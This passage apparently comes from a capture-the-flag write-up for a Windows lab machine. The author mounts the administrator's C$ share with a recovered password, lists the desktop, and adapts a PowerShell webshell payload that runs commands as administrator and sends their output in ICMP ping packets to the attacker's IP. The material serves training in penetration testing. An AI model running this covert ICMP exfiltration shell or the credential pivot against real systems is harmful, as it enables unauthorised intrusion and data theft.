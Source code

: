     Minion> net use \\localhost\c$ /u:minion\administrator 1234test
    The command completed successfully.
    

Through this share I can read the administrator’s desktop:

    
    
    Minion> dir \\localhost\c$\users\administrator\desktop
    
        Directory: \\localhost\c$\users\administrator\desktop
    
    Mode                LastWriteTime     Length Name                              
    ----                -------------     ------ ----                              
    -a---         9/26/2017   6:18 AM     386479 root.exe                          
    -a---         8/24/2017  12:32 AM         76 root.txt
    

Right away I notice the `root.txt` is the wrong size. It’s a message:

    
    
    Minion> cat \\localhost\c$\users\administrator\desktop\root.txt
    In order to get the flag you have to launch root.exe located in this folder!
    

This step is put in place to exactly prevent what I’m trying to do. In order
to get the flag, I’ll need to get execution as Administrator, not just read
access to the desktop.

### Update Shell

I’ll copy my `icmp_shell.py` script and make some small changes to the
PowerShell that is run via the webshell. The previous one looked like this
(with added whitespace for readability):

    
    
    $cmd="{cmd}"
    $s=1000
    $ip='10.10.14.6'
    $r=[System.Text.Encoding]::ASCII.GetBytes((iex -command $cmd 2>&1|out-string))
    $ping=New-Object System.Net.NetworkInformation.Ping
    $opts=New-Object System.Net.NetworkInformation.PingOptions
    $opts.DontFragment=$true
    $i=0
    while ($i -lt $r.length) {
        $ping.send($ip,5000,$r[$i..($i+$s)],$opts)
        $i=$i+$s
    }
    

It takes a command and runs it using `iex` (short for `Invoke-Expression`).
I’ll update that to:

    
    
    $s=1000
    $ip='10.10.14.6'
    $pass="1234test"|ConvertTo-SecureString -AsPlainText -Force
    $cred=New-Object System.Management.Automation.PSCredential("minion\\administrator", $pass)
    $r=[System.Text.Encoding]::ASCII.GetBytes((invoke-command -computername localhost -credential $cred -scriptblock {{ {cmd} }}|out-string))
    $ping=New-Object System.Net.NetworkInformation.Ping
    $opts=New-Object System.Net.NetworkInformation.PingOptions
    $opts.DontFragment=$true
    $i=0
    while ($i -lt $r.length) {
        $ping.send($ip,5000,$r[$i..($i+$s)],$opts)
        $i=$i+$s
    }
    
